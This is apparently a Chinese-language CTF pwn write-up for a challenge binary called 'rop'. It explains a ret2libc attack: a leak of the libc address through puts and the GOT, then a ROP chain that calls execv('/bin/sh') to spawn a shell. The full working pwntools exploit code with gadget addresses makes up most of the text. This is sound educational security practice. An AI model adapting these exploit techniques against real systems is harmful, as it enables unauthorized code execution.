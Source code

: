 老规矩，检查一下保护，发现开了 NX：

![image-20210520170426443](assets/image-20210520170426443.png)

用 ROPgadget 看了看，.text 段没什么好利用的，考虑 ret2libc。

PLT 表里面有 puts，所以首先打印出来 GOT 表里的随便什么东西即可泄露出 libc 的地址：

```python
from pwn import *

elf = ELF('./rop')
libc = ELF('./libc-2.31.so')

STACK_OFFSET = 0X88
PROBE_FUNC = 'printf'

out = (
    b'a'*STACK_OFFSET +
    p64(0x4013c3) + # pop rdi; ret
    p64(elf.got[PROBE_FUNC]) +
    p64(elf.symbols['puts']) +
    p64(elf.symbols['run'])
)

p = process('./rop')
p.sendline('2')
p.sendline(out)

print(repr(p.recvline())) # This is a solution ...
print(repr(p.recvline())) # PWN it!\n
print(repr(p.recvline())) # aaaaa...
addrline = p.recvline() # {addr}\n
print(repr(addrline))

assert len(addrline)==7 
libc_addr = u64(addrline[:6] + b'\x00\x00') - libc.symbols[PROBE_FUNC]
```

然后在 libc 里面找到 execv 和 /bin/sh 字符串，就可以弹 shell 了。

```python
binsh_addr = next(libc.search(b'/bin/sh\x00'))

out = (
    b'a'*STACK_OFFSET +
    p64(0x4013c3) + # pop rdi; ret
    p64(libc_addr + binsh_addr) +
    p64(0x4013c1) + # pop rsi; pop r15; ret
    p64(0) + p64(0) +
    p64(libc_addr + libc.symbols['execv']) +
    p64(elf.symbols['run'])
)

p.sendline(out)
p.interactive()
```
